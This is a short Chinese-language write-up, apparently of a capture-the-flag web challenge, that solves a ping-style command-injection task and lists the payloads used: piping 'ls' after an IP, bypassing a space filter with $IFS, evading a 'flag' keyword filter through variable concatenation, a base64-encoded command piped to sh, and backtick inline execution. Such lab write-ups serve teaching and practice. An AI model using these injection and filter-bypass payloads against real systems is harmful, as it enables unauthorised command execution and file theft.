




# 考察知识点：

# 1.命令行注入

# 2.命令行注入下的绕过


参考文章：

https://blog.zeddyu.info/2019/01/17/%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C/#%E5%91%BD%E4%BB%A4%E5%88%86%E9%9A%94%E4%B8%8E%E6%89%A7%E8%A1%8C%E5%A4%9A%E6%9D%A1%E5%91%BD%E4%BB%A4


https://xz.aliyun.com/t/3918#toc-4


# 1.根据题目和网站确定是命令行注入


# 2.ls列如文件目录

```javascript
/?ip=127.0.0.1|ls
```




# 3. 读取flag.php内容发现限制了flag和空格。

空格经过多次测试发现只能使用$IFS\绕过空格限制



读取到了index.php的内容


# 4.发现对flag做了限制，并且过滤了很多通配符

此时可以采用字符串拼接的方法

构造payload:

```javascript
?ip=127.0.0.1;a=lag;b=f;cat$IFS$b$a.php
```

此时不能用$IFS\只能把后面的\去了才能出flag。玄学




# 方法二：

# 过滤bash不能用，但是sh没有过滤

```javascript
echo$IFS$1Y2F0IGZsYWcucGhw|base64$IFS$1-d|sh
```


# 方法三：

# 内联执行：

```javascript
cat$IFS`ls`
```




